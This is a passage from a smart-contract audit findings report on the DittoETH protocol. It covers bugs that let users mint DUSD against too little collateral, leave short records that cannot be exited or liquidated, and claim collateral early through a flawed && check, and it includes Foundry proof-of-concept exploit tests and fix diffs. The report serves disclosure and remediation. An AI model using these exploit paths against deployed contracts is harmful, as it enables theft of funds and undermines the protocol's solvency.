            diamond.mintNFT( asset, C.SHORT_STARTING_ID, C.STARTING_ID + i);
        }

        for (uint8 i; i < attackerAddresses.length; i++){
            vm.prank(attackerAddresses[i]);
            cancelShort(C.STARTING_ID + i);

            STypes.ShortRecord memory shortRecord = getShortRecord(attackerAddresses[i], C.SHORT_STARTING_ID);
            uint88 amount = shortRecord.ercDebt;
            exitShortErcEscrowed(C.SHORT_STARTING_ID, amount, attackerAddresses[i]);
        }
        console.log("__Ready for another attack full:");
        _logShortOrders();

        // Victims create orders again
        fundLimitShort( DEFAULT_PRICE + 1000, DEFAULT_AMOUNT + 555, victim ); 
        fundLimitShort( DEFAULT_PRICE + 1000, DEFAULT_AMOUNT + 666, victim ); 
        fundLimitShort( DEFAULT_PRICE + 1000, DEFAULT_AMOUNT + 777, victim );
        console.log("____Second iteration____");
        console.log("__After victim creates orders (3 victim's orders + an attacker's one):");
        _logShortOrders();


        for (uint8 i; i < attackerAddresses.length; i++){
            fundLimitShort( DEFAULT_PRICE + 100 - i, DEFAULT_AMOUNT + 4444 + i, attackerAddresses[i] ); 
            fundMarketBid( DEFAULT_PRICE + 100, DEFAULT_AMOUNT / 10, attackerAddresses[i] );
            
            vm.prank(attackerAddresses[i]);
            // id (the last argument) starts with 4 because 3 NFTs have been minted 
            // in the previous attack; we don't use them anymore
            diamond.transferFrom(attackerAddresses[i], attackerAddresses[i], 4 + i);
        }

        console.log("__Second attack done (4 attacker's orders):");
        _logShortOrders();
    }

    function _logShortRecords(address addr) internal view {
            console.log("===");
            console.log("id: ", 0);
            console.log(getShortRecord(addr, 0));
            console.log("id: ", 1);
            console.log(getShortRecord(addr, 1));
            console.log("id: ", 2);
            console.log(getShortRecord(addr, 2));
            console.log("id: ", 3);
            console.log(getShortRecord(addr, 3));
            console.log("id: ", 4);
            console.log(getShortRecord(addr, 4));
            console.log("===");
    }


    function _addAppStorageReaderToDiamond() internal {
        newCut.push(
            IDiamondCut.FacetCut({
                facetAddress: address(new AppStorageReader()),
                action: IDiamondCut.FacetCutAction.Add,
                functionSelectors: appStorageReaderSelectors
            })
        );
        vm.prank(owner);
        diamond.diamondCut(newCut, address(0), "");
    }
    

    function _logBids() internal view {
        // See console.logBids
        STypes.Order memory o = AppStorageReader(_diamond).getBid(asset, C.HEAD);
        console.log(o);

        uint16 currentId = o.nextId;
        while (currentId != C.TAIL) {
            o = AppStorageReader(_diamond).getBid(asset, currentId);
            console.log(o);
            currentId = o.nextId;
        }
        console.log("--");
    }

    function _logShortOrders() internal view {
        // See console.logShorts
        STypes.Order memory o = AppStorageReader(_diamond).getShort(asset, C.HEAD);
        console.log(o);

        uint16 currentId = o.nextId;
        while (currentId != C.TAIL) {
            o = AppStorageReader(_diamond).getShort(asset, currentId);
            console.log(o);
            currentId = o.nextId;
        }
        console.log("--");
    }
}
```

</details>

### Recommended Mitigation Steps

1. Consider checking the owner of the short order in `transferShortRecord` before cancelling it.
2. Consider burning the nft when short record is deleted.

### Assessed type

Invalid Validation

**[ditto-eth (DittoETH) confirmed](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/178#issuecomment-2043290175)**

***

## [[H-03] Users can mint DUSD with less collateral than required, which gives them free DUSD and may open a liquidatable position](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/134)
*Submitted by [nonseodion](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/134), also found by [serial-coder](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/303)*

Users can mint more DUSD than the value of collateral they provided for the Short Order when they cancel it.

*Note: Each number below is a step and some steps jump to other steps.*

When a user cancels a short order, the following happens: 

1. If the short's associated short record has a status of `SR.Closed`, i.e. it hasn't been matched, it is deleted and the process moves to step 5.

[LibOrders.sol#L898-L902](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L898-L902)

```solidity
        if (shortRecord.status == SR.Closed) {
            // @dev creating shortOrder automatically creates a closed shortRecord which also sets a shortRecordId
            // @dev cancelling an unmatched order needs to also handle/recycle the shortRecordId
❌          LibShortRecord.deleteShortRecord(asset, shorter, shortRecordId);
        } else {
```

2. Else, if the short record is partially filled or filled, it is checked if it has less than the minimum erc debt (`minShortErc`).

[LibOrders.sol#L904](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L904)

```solidity
        if (shortRecord.ercDebt < minShortErc) {
```

3. If it has less debt than `minShortErc`, the short record is filled up to the `minShortErc` and its status is changed to `SR.FullyFilled` and the process moves to step 5.

[LibOrders.sol#L905C1-L923](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L905C1-L923C1)

```solidity
                // @dev prevents leaving behind a partially filled SR is under minShortErc
                // @dev if the corresponding short is cancelled, then the partially filled SR's debt will == minShortErc
                uint88 debtDiff = minShortErc - shortRecord.ercDebt;
                {
                    STypes.Vault storage Vault = s.vault[vault];

                    uint88 collateralDiff = shortOrder.price.mulU88(debtDiff).mulU88(LibOrders.convertCR(shortOrder.shortOrderCR));

❌                  LibShortRecord.fillShortRecord(
                        asset,
                        shorter,
                        shortRecordId,
❌                      SR.FullyFilled,
                        collateralDiff,
                        debtDiff,
                        Asset.ercDebtRate,
                        Vault.dethYieldRate
                    );
```

4. Else, if it has more debt than `minShortErc`, the status of the short record is changed to `SR.FullyFilled`.

[LibOrders.sol#L934](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L934)

```solidity
                shortRecord.status = SR.FullyFilled;
```

5. Finally the short order itself is canceled.

[LibOrders.sol#L951](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L951)

```solidity
        cancelOrder(s.shorts, asset, id);
```

The issue arises in step 3 where it tries to fill the short record up to the `minShortErc`. To fill the Short Record, it first gets the amount of DUSD needed in line 928 of the code snippet below as `debtDiff`. The collateral needed to mint the `DUSD` is calculated in line 932.

There are two issues with the calculation in line 932:

1. It uses the `shortOrderCR` to calculate the collateral needed. If the short order's collateral ratio is less than 1 ether then the value of the collateral calculated is less than the value of DUSD that eventually gets minted.
2. It uses the short order's price `shortOrder.price` to calculate the needed collateral. If this price is less than the current price of DUSD in ETH value, the collateral calculated is less than what is required. But if this price is higher than the current price, the user uses more ETH to mint the DUSD.

The short record is filled in line 934, and the collateral needed is removed from the ETH the user initially supplied when he created the short order in line 950. Note that the user (i.e. the shorter) gets the `debtDiff` (i.e. DUSD minted) in line 953.

[LibOrders.sol#L907-L938](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L907-L938)

```solidity
928:                 uint88 debtDiff = minShortErc - shortRecord.ercDebt;
929:                 {
930:                     STypes.Vault storage Vault = s.vault[vault];
931: 
932:                     uint88 collateralDiff = shortOrder.price.mulU88(debtDiff).mulU88(LibOrders.convertCR(shortOrder.shortOrderCR));
933: 
934:                     LibShortRecord.fillShortRecord(
935:                         asset,
936:                         shorter,
937:                         shortRecordId,
938:                         SR.FullyFilled,
939:                         collateralDiff,
940:                         debtDiff,
941:                         Asset.ercDebtRate,
942:                         Vault.dethYieldRate
943:                     );
944: 
945:                     Vault.dethCollateral += collateralDiff;
946:                     Asset.dethCollateral += collateralDiff;
947:                     Asset.ercDebt += debtDiff;
948: 
949:                     // @dev update the eth refund amount
950:                     eth -= collateralDiff;
951:                 }
952:                 // @dev virtually mint the increased debt
953:                 s.assetUser[asset][shorter].ercEscrowed += debtDiff;
```

A malicious user can exploit this by following these steps:

1. Create a short order on an asset that lets the user provide less than 100% capital.
2. Ensure that the order only gets partially filled before it is added to the market.
3. Cancel the order to mint DUSD for only a part of the collateral and get the minted DUSD.

This will allow him to mint more DUSD than the value of the collateral he provided. The Short Record he leaves is also immediately liquidatable.

### Impact

The issues above has the following impacts:

- Users can mint more DUSD than the collateral they provide.
- Users can mint DUSD at a lesser price than the current ETH price.
- A user can open a position that is immediately liquidatable if he does any of the two actions above.
- Users can also mint DUSD at a higher price than the current ETH price letting them experience a loss.

### Proof of Concept

The POC below can be run in the [shorts.t.sol](https://github.com/code-423n4/2024-03-dittoeth/blob/main/test/Shorts.t.sol) file. It consists of 2 tests:

- `test_MintFreeDUSD` shows how a user can mint DUSD for less collateral than required and open a liquidatable position.
- `test_MintBelowPrice` shows how a user can mint DUSD at a lesser price and open a liquidatable position.

```solidity
// Make sure to import the types below into the Shorts.t.sol file
    // import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";
    function test_MintFreeDUSD() public {
        // set the initial, penalty and liquidation CRs
        vm.startPrank(owner);
        // set below 200 to allow shorter provide less than 100% of debt
        diamond.setInitialCR(asset, 170); 
        diamond.setPenaltyCR(asset, 120);
        diamond.setLiquidationCR(asset, 150);
        vm.stopPrank();

        // create a bid to match the short and change its state to SR.PartialFill
        fundLimitBidOpt(1 ether, 0.01 ether, receiver);

        // create the short providing only 70% of the dusd to be minted
        uint88 price = 1 ether;
        depositEth(sender, price.mulU88(5000 ether).mulU88(0.7 ether));
        uint16[] memory shortHintArray = setShortHintArray();
        MTypes.OrderHint[] memory orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
        vm.prank(sender);
        diamond.createLimitShort(asset, uint80(price), 5000 ether, orderHintArray, shortHintArray, 70);

        STypes.ShortRecord memory short = getShortRecord(sender, C.SHORT_STARTING_ID);
        // successfully matches the bid
        assertTrue(short.status == SR.PartialFill);
        
        // cancel the short to use up collateral provided and mint dusd
        vm.prank(sender);
        cancelShort(101);

        short = getShortRecord(sender, C.SHORT_STARTING_ID);
        assertEq(short.ercDebt, 2000 ether); // 2000 dusd minted
        assertEq(short.collateral, 0.01 ether + 0.7 * 2000 ether); // 70% of ETH collateral provided 

        // this SR is liquidatable
        assertGt( diamond.getAssetNormalizedStruct(asset).liquidationCR, short.collateral.div(short.ercDebt.mul(1 ether)));
    }

    function test_MintBelowPrice() public {
        // create a bid to match the short and change its state to SR.PartialFill
        fundLimitBidOpt(1 ether, 0.01 ether, receiver);

        // create the short providing 400% of the dusd to be minted
        // current initialCR is 500%
        uint88 price = 1 ether;
        depositEth(sender, price.mulU88(5000 ether).mulU88(4 ether));
        uint16[] memory shortHintArray = setShortHintArray();
        MTypes.OrderHint[] memory orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
        vm.prank(sender);
        diamond.createLimitShort(asset, uint80(price), 5000 ether, orderHintArray, shortHintArray, 400);

        STypes.ShortRecord memory short = getShortRecord(sender, C.SHORT_STARTING_ID);
        assertTrue(short.status == SR.PartialFill); // CR is partially filled by bid
        
        // set the new price to 1.5 ether so that price increase
        uint256 newPrice = 1.5 ether;
        skip(15 minutes);
        ethAggregator.setRoundData(
            92233720368547778907 wei, int(newPrice.inv()) / ORACLE_DECIMALS, block.timestamp, block.timestamp, 92233720368547778907 wei
        );
        fundLimitBidOpt(1 ether, 0.01 ether, receiver);
        assertApproxEqAbs(diamond.getProtocolAssetPrice(asset), newPrice, 15000000150);

        // cancel the short to mint at 1 ether instead of 1.5 ether
        vm.prank(sender);
        cancelShort(101);

        short = getShortRecord(sender, C.SHORT_STARTING_ID);
        assertEq(short.ercDebt, 2000 ether); // 2000 dusd minted
        // 2000 dusd minted for 8000 ether (400% at price of 1 ether) 
        // instead of 12000 ether (400% at price of 1.5 ether)
        assertEq(short.collateral, 0.01 ether + 4*2000 ether);

        // position is liquidatable
        assertGt( diamond.getAssetNormalizedStruct(asset).liquidationCR, short.collateral.div(short.ercDebt.mul(1.5 ether)));
    }
```

### Recommended Mitigation Steps

Consider using the `initialCR` of the asset if the short order's CR is lesser and consider using the current oracle price instead of the short order's price when it was created.

It is also possible that the ETH calculated exceeds the ETH the user provided when he created the Short Order. The sponsor can also consider sourcing more ETH from the user's escrowed ETH to enable him to cancel when this occurs.

[LibOrders.sol#L911-L938](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L911-L938)

```solidity
-                   uint88 collateralDiff = shortOrder.price.mulU88(debtDiff).mulU88(LibOrders.convertCR(shortOrder.shortOrderCR));
+                   uint16 cr = shortOrder.shortOrderCR < s.asset[asset].initialCR ? s.asset[asset].initialCR : shortOrder.shortOrderCR;
+                   uint80 price = LibOracle.getSavedOrSpotOraclePrice(asset);
+                   uint88 collateralDiff = price.mulU88(debtDiff).mulU88(LibOrders.convertCR(cr));

                    LibShortRecord.fillShortRecord(
                        asset,
                        shorter,
                        shortRecordId,
                        SR.FullyFilled,
                        collateralDiff,
                        debtDiff,
                        Asset.ercDebtRate,
                        Vault.dethYieldRate
                    );

                    Vault.dethCollateral += collateralDiff;
                    Asset.dethCollateral += collateralDiff;
                    Asset.ercDebt += debtDiff;

                    // @dev update the eth refund amount
+                   if(eth < collateralDiff) revert Errors.InsufficientCollateral();
                    eth -= collateralDiff;
```

**[ditto-eth (DittoETH) confirmed](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/134#issuecomment-2045711028)**

***

## [[H-04] Partially filled Short Records created without a short order cannot be liquidated and exited](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/133)
*Submitted by [nonseodion](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/133), also found by [0xbepresent](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/168)*

When a Short Order is being created it tries to fill its Short Record. If it fills the Short Record, the Short Record is given a filled status (`SR.FullyFilled`) and the Short Order isn't added to the market. But if it doesn't fill the Short Record, it is given a partially filled status (`SR.PartiallyFilled`) and the remaining part of the Short Order is added to the market.

The issue is the current implementation doesn't add the Short Order to the market every time the Short Record is partially filled. It does this in the `sellMatchAlgo()` function loop when it tries to match bids.

[LibOrders.sol#L591-L597](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L591-L597)

```solidity
❌                       matchIncomingSell(asset, incomingAsk, matchTotal);
❌                       if (incomingAsk.ercAmount.mul(incomingAsk.price) >= minAskEth) {
                            addSellOrder(incomingAsk, asset, orderHintArray);
                        }
                        s.bids[asset][C.HEAD].nextId = C.TAIL;
                        return;
```

When the Short Order is being matched in the `sellMatchAlgo()` loop, it encounters the check in the `if` statement above. If the value of the erc remaining in the short is less than `minAskEth` it is not added to the market. The Short Record is already given the `SR.PartiallyFilled` status before the check.

When this happens, the Short Record is created with no associated Short Order. This prevents the user from exiting the Short Record and a liquidator from liquidating the position if it ever becomes liquidatable. These actions revert with `InvalidShortOrder()` error in the following portion of the code.

### Exiting

When a user tries to exit using any of the exit functions, he has to pass a Short Order id.

[ExitShortFacet.sol#L41](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L41)

```solidity
    function exitShortWallet(
     address asset, 
     uint8 id, 
     uint88 buybackAmount, 
❌   uint16 shortOrderId
    )
```

[ExitShortFacet.sol#L87](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L87)

```solidity
    function exitShortErcEscrowed(
      address asset, 
      uint8 id, uint88 
      buybackAmount, 
❌    uint16 shortOrderId
    )
```

[ExitShortFacet.sol#L142](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L142)

```solidity
     function exitShort(
        address asset,
        uint8 id,
        uint88 buybackAmount,
        uint80 price,
        uint16[] memory shortHintArray,
❌       uint16 shortOrderId
    )
```

Since there is no valid Short Order Id, if he passes any value it reverts when the user tries to exit. Because the id needs to be associated with the `shortRecord` and still be owned by him to pass the checks. `exitShort()` function calls `checkCancelShortOrder()` which will revert in the check below.

[LibSRUtil.sol#L57](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L57)

```solidity
    if (shortOrder.shortRecordId != shortRecordId || shortOrder.addr != shorter) revert Errors.InvalidShortOrder();
```

For `exitShortWallet()` and `exitShortErcEscrowed()`, they revert in the check below when they call `checkShortMinErc()`.

[LibSRUtil.sol#L84](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L84)

```solidity
    if (shortOrder.shortRecordId != shortRecordId || shortOrder.addr != shorter) revert Errors.InvalidShortOrder();
```

### Liquidation

The primary and secondary liquidation calls require a Short Order Id.

Primary Liquidation call:

[PrimaryLiquidationFacet.sol#L47](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L47)

```solidity
    function liquidate(
      address asset, 
      address shorter, 
      uint8 id, uint16[] memory shortHintArray, 
❌    uint16 shortOrderId
)
```

Secondary Liquidation call:

[SecondaryLiquidationFacet.sol#L39](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/SecondaryLiquidationFacet.sol#L39)

```solidity
  function liquidateSecondary(
    address asset, 
❌   MTypes.BatchLiquidation[] memory batches, 
    uint88 liquidateAmount, 
    bool isWallet
)
```

`BatchLiquidation` struct:

        struct BatchLiquidation {
            address shorter;
            uint8 shortId;
    ❌      uint16 shortOrderId;
        }

The `liquidate()` function reverts in its call to `checkCancelShortOrder()`. The check below causes the revert, because the id passed by the liquidator needs to be associated with the Short Record and still be owned by the user being liquidated to pass the check.

[LibSRUtil.sol#L57](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L57)

    if (shortOrder.shortRecordId != shortRecordId || shortOrder.addr != shorter) revert Errors.InvalidShortOrder();

The `liquidateSecondary()` function uses a loop to complete batch liquidation. In the loop, it first does the check below on each batch element.

[SecondaryLiquidationFacet.sol#L69-L80](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/SecondaryLiquidationFacet.sol#L69-L80)

```solidity
            bool shortUnderMin;
            if (m.isPartialFill) {
                // Check attached shortOrder ercAmount left since SR will be fully liquidated
                STypes.Order storage shortOrder = s.shorts[m.asset][m.shortOrderId];
❌              shortUnderMin = shortOrder.ercAmount < minShortErc;
❌              if (shortUnderMin) {
                    // Skip instead of reverting for invalid shortOrder
❌                 if (shortOrder.shortRecordId != m.short.id || shortOrder.addr != m.shorter) {
                        continue;
                    }
                }
            }
```

The loop skips liquidating if the Short Record's debt is below the minimum i.e. `shortUnderMin` is true for the passed `shortOrder` and `shortOrder.shortRecordId != m.short.id || shortOrder.addr != m.shorter` evaluates to true since the short order isn't attached to the Short Record.

It reverts in the check below. `liquidateAmount` is the amount the liquidator wants to liquidate and `liquidateAmountLeft` is the amount not liquidated. If only the bad Short Record is in the batch, it reverts. If other Short Records in the batch get liquidated it doesn't revert.

[SecondaryLiquidationFacet.sol#L124](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/SecondaryLiquidationFacet.sol#L124)

```solidity
        if (liquidateAmount == liquidateAmountLeft) revert Errors.SecondaryLiquidationNoValidShorts();
```

*Note: Secondary Liquidation can still be done in some scenarios check the POC section for more details.*

Apart from the DOS effects above, the issue also lets a user create a Short Record with an erc amount below the `minShortErc`. Check the POC.

### Impact

The issue above has the following effects:

1. Users cannot exit a Short Record Position.
2. Primary Liquidation cannot be done on the Short Record.
3. Secondary Liquidation may not be possible on the Short Record.
4. Allows a user to create a Short Record below `minShortErc`.

### Proof of Concept

The tests can be run in the [Shorts.t.sol](https://github.com/code-423n4/2024-03-dittoeth/blob/main/test/Shorts.t.sol) file.

The POC below consists of 5 tests:

- `test_FailExit()`: Shows how exiting a Short Record can fail.
- `test_CreateShortLessThanMin()`: Shows how a Short Record with less erc debt than the minimum can be created.
- `test_FailPrimaryLiquidation()`: Shows how primary liquidation fails.
- `test_FailSecondaryLiquidation()`: Shows how Secondary liquidation fails.
- `test_PassSecondaryLiquidation()`: Shows how Secondary Liquidation can pass and exposes another bug.

It also contains a utility function for setting up the Short Record, `createPartiallyFilledSR`.

Add this import statement to the top of the [Shorts.t.sol](https://github.com/code-423n4/2024-03-dittoeth/blob/main/test/Shorts.t.sol) file:

`import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";`

<details>

```solidity
    // util function and errors used by test
    error InvalidShortOrder();
    error SecondaryLiquidationNoValidShorts();
    function createPartiallyFilledSR(uint amount) public 
      returns (STypes.ShortRecord memory short)
    {
        // get minimum ask
        uint minAskEth = diamond.getAssetNormalizedStruct(asset).minAskEth;

        // The bid is opened with an amount that allows short to be 1 less than
        // the minAskEth.
        fundLimitBidOpt(1 ether, uint88(amount - minAskEth + 1), receiver);
        // open short
        fundLimitShortOpt(1 ether,uint88(amount), sender);
        // get the ShortRecord created
        short = getShortRecord(sender, C.SHORT_STARTING_ID);
        assertTrue(short.status == SR.PartialFill);

        // no short orders
        STypes.Order[] memory shortOrders = getShorts();
        assertEq(shortOrders.length, 0);

        return short;
    }

    function test_FailExit() public {
        // create partially filled SR with no short order
        createPartiallyFilledSR(3000 ether);
        // give sender assets to exit short
        deal(asset, sender, 1000 ether);
        // cannot exit the SR
        vm.expectRevert(InvalidShortOrder.selector);
        exitShortWallet(C.SHORT_STARTING_ID, 1000 ether, sender);
    }

    function test_CreateShortLessThanMin() public {
        // create partially filled SR with no short order
        STypes.ShortRecord memory short = createPartiallyFilledSR(2000 ether);
        uint minShortErc = diamond.getAssetNormalizedStruct(asset).minShortErc;
        // created SR has less than minShortErc 
        assertGt(minShortErc, short.ercDebt);
    }

    function test_FailPrimaryLiquidation() public {
        // create partially filled SR with no short order
        createPartiallyFilledSR(3000 ether);

        // change price to let short record be liquidatable
        uint256 newPrice = 1.5 ether;
        skip(15 minutes);
        ethAggregator.setRoundData(
            92233720368547778907 wei, int(newPrice.inv()) / ORACLE_DECIMALS, block.timestamp, block.timestamp, 92233720368547778907 wei
        );
        fundLimitAskOpt(1.5 ether, 2000 ether, receiver); // add ask to allow liquidation have a sell
        // liquidation reverts 
        vm.expectRevert(InvalidShortOrder.selector);
        diamond.liquidate(asset, sender, C.SHORT_STARTING_ID, shortHintArrayStorage, 0);
    }

    function test_FailSecondaryLiquidation() public {
        // create partially filled SR with no short order
        STypes.ShortRecord memory short = createPartiallyFilledSR(3000 ether);
        // change price to let short record be liquidatable
        uint256 newPrice = 1.5 ether;
        skip(15 minutes);
        ethAggregator.setRoundData(
            92233720368547778907 wei, int(newPrice.inv()) / ORACLE_DECIMALS, block.timestamp, block.timestamp, 92233720368547778907 wei
        );

        // give receiver assets to complete liquidation
        deal(asset, receiver, short.ercDebt);
        // create batch
        MTypes.BatchLiquidation[] memory batch = new MTypes.BatchLiquidation[](1);
        batch[0] = MTypes.BatchLiquidation(sender, C.SHORT_STARTING_ID, 0);
        vm.prank(receiver);
        // cannot liquidate
        vm.expectRevert(SecondaryLiquidationNoValidShorts.selector);
        diamond.liquidateSecondary(asset, batch, short.ercDebt, true); 
    }

    // This shows that secondary liquidation can still occur
    function test_PassSecondaryLiquidation() public {
        // create partially filled SR with no short order
        STypes.ShortRecord memory short = createPartiallyFilledSR(3000 ether);
        // change price to let short record be liquidatable
        uint256 newPrice = 1.5 ether;
        skip(15 minutes);
        ethAggregator.setRoundData(
            92233720368547778907 wei, int(newPrice.inv()) / ORACLE_DECIMALS, block.timestamp, block.timestamp, 92233720368547778907 wei
        );

        // create another short for sender
        // the id of this short can be used for liquidation
        fundLimitShortOpt(1 ether, 3000 ether, sender);
        STypes.Order[] memory shortOrders = getShorts();
        shortOrders = getShorts();

        // give receiver assets to complete liquidation
        deal(asset, receiver, short.ercDebt);
        // create batch
        MTypes.BatchLiquidation[] memory batch = new MTypes.BatchLiquidation[](1);
        batch[0] = MTypes.BatchLiquidation(sender, C.SHORT_STARTING_ID, shortOrders[0].id);
        vm.prank(receiver);
        // successful liquidation
        diamond.liquidateSecondary(asset, batch, short.ercDebt, true); 
    }
```

</details>

### Recommended Mitigation Steps

Consider setting `ercAmount` of the `incomingAsk` to zero in the `sellMatchAlgo()` function. This will allow the `matchIncomingSell()` call to set the Short Record to a Fully Filled state.

[LibOrders.sol#L590-L598](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L590-L598)

```solidity
                    if (startingId == C.TAIL) {
-                        matchIncomingSell(asset, incomingAsk, matchTotal);

                        if (incomingAsk.ercAmount.mul(incomingAsk.price) >= minAskEth) {
                            addSellOrder(incomingAsk, asset, orderHintArray);
                        }
+                       incomingAsk.ercAmount = 0;
+                       matchIncomingSell(asset, incomingAsk, matchTotal);
                        s.bids[asset][C.HEAD].nextId = C.TAIL;
                        return;
                    }
```

### Assessed type

DoS

**[ditto-eth (DittoETH) confirmed and commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/133#issuecomment-2043261948):**
 > Great find, POC very helpful.

***

## [[H-05] Flawed if check causes inaccurate tracking of the protocol's `ercDebt` and collateral](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/104)
*Submitted by [samuraii77](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/104), also found by [samuraii77](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/217) and [serial-coder](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/302)*

A flawed if check using `&&` instead of `||` in `RedemptionFacet::claimRemainingCollateral()` leads to a break of one of the core protocol invariants. The total collateral and `ercDebt` of an asset should always equal the total collateral and `ercDebt` of all `shortRecords` combined. However, this will not be the case if the scenario explained below takes place. This results in the protocol holding inaccurate values of their `ercDebt` and collateral which are extremely important values used for very important calculations across the entire protocol.

### Proof of Concept

Imagine the following scenario:

1. `Shorter` has a few `shortRecords`.
2. `Redeemer` proposes a redemption for one of the `shortRecords` owned by `shorter`.
3. The `timeToDispute` passes.
4. `Redeemer2` proposes redemption for another one of the `shortRecords` owned by `shorter`.
5. Even though `timeToDispute` has not passed for `redeemer2`, `shorter` is able to call `RedemptionFacet::claimCollateral()` successfully because of a flawed if check.

```solidity
if (claimProposal.shorter != msg.sender && claimProposal.shortId != id) revert Errors.CanOnlyClaimYourShort();
```

- 5.1 `Shorter` calls `RedemptionFacet::claimRemainingCollateral()` with the address of `redeemer` and with the ID of the `shortRecord` proposed by `redeemer2`.
- 5.2 `redeemerAssetUser` in the function is now `redeemer`.
- 5.3 The check for time to dispute passes as enough time has passed for `redeemer`'s `timeToDispute`.
- 5.4 `claimProposal` is the `decodedProposalData` of `redeemer`.
- 5.5 The if check doesn't lead to a revert because it is flawed, `claimProposal.shorter` is `==` to `msg.sender` as he is the owner of the initial `shortRecord`; however, the `claimProposal.shortId` is not equal to the given ID since `claimProposal.shortId` is based on the initial redeemer proposal and the given ID is the ID for the `shortRecord` proposed by `redeemer2` which makes the if check (true `&&` false) resulting in false and the code continues.
- 5.6 `_claimRemainingCollateral()` is called with the `shorter` address (`msg.sender`) and `shortId` equal to the given ID (ID of the `shortRecord` proposed by `redeemer2`).
- 5.7 Check successfully passes and `shorter` claims collateral and deletes `shortRecord` without having to wait the `timeToDispute`.

6. As the `shortRecord` is deleted before `timeToDispute` is over, `RedemptionFacet::disputeRedemption()` is still callable.
7. `Disputer` successfully disputes the already deleted `shortRecord`.
8. `RedemptionFacet::disputeRedemption()` gives back the `collateral` and `ercDebt` to the already deleted `shortRecord`.
9. It also increments the asset's `collateral` and `ercDebt`.

```solidity
for (uint256 i = incorrectIndex; i < decodedProposalData.length; i++) {
                currentProposal = decodedProposalData[i];

                STypes.ShortRecord storage currentSR = s.shortRecords[d.asset][currentProposal.shorter][currentProposal.shortId];
                currentSR.collateral += currentProposal.colRedeemed;
                currentSR.ercDebt += currentProposal.ercDebtRedeemed;

                d.incorrectCollateral += currentProposal.colRedeemed;
                d.incorrectErcDebt += currentProposal.ercDebtRedeemed;
            }

            s.vault[Asset.vault].dethCollateral += d.incorrectCollateral;
            Asset.dethCollateral += d.incorrectCollateral;
            Asset.ercDebt += d.incorrectErcDebt;
```

10. Since the `shortRecord` is deleted, it makes the asset's `ercDebt` and `collateral` inaccurate as it includes the `ercDebt` and `collateral` of a non-existent `shortRecord`.
11. Such inaccuracy is detrimental to the protocol as inaccurate values for the `ercDebt` and `collateral` will be used across the whole protocol for extremely important functions and calculations.

Add the following POC function to `Redemption.t.sol`:

<details>

```solidity
    function testRuinsDebtAndCollateralTracking() public {
        // Set up all of the users
        address shorter = sender;
        address redeemer = receiver;
        address redeemer2 = makeAddr('redeemer2');
        depositEth(redeemer2, INITIAL_ETH_AMOUNT);
        address disputer = makeAddr('disputer');

        for (uint256 i = 0; i < 6; i++) {
            if (i % 2 == 0) {
                fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, redeemer);
                fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, shorter);
            } else {
                fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, redeemer2);
                fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, shorter);
            }
        }

        _setETH(50000 ether);
